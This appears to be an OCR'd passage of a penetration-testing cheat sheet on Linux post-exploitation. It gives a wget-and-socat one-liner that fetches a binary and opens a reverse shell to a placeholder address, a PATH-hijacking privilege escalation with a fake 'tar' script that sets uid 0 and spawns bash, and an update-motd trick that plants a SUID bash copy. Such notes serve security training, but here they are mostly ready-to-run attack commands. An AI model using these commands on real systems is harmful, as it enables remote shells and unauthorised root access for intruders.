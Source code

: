       wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[ip]:[port]

-----------------------

### Privesc with PATH HIJACKING

- If the path to a binary is not specified in a script or binary e.g `tar instead of /usr/bin/tar`, you can set the environmental variable with `export PATH=.:$PATH` to check the current directory for our malcious binary before moving to `/usr/bin` to grab a binary.

- Our Malicious tar file should contain this if python3 is present on the victim machine

      #! /usr/bin/env python3 
      print("Malicious me")
      import os
      os.setuid(0)
      os.setgid(0)
      os.system("/bin/bash")

- Python
      
      #! /usr/bin/env python
      print("Malicious me")
      import os
      os.setuid(0)
      os.setgid(0)
      os.system("/bin/bash")

- Use `chmod +x tar` later


### REFERENCES:

- [Nguyen](https://securitynguyen.com/posts/linux-privilege-escalation/path-hijacking-linux-privilege-escalation/)

---------------------------

### Exploiting right to modify ssh motd(message of the day) in `/etc/update-motd.d`

- Write the sh code to 00-header, the code grants suid bit to the bash file copied to a user's directory, `<username>` represents the user you have access to

      echo "cp /bin/bash /home/<username>/bash && chmod u+s /home/<username>/bash" >> /etc/update-motd.d/00-header

- Exit the ssh connection and reconnect, then run

      ./bash -p


### REFERENCES
   
- [HDKS](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)
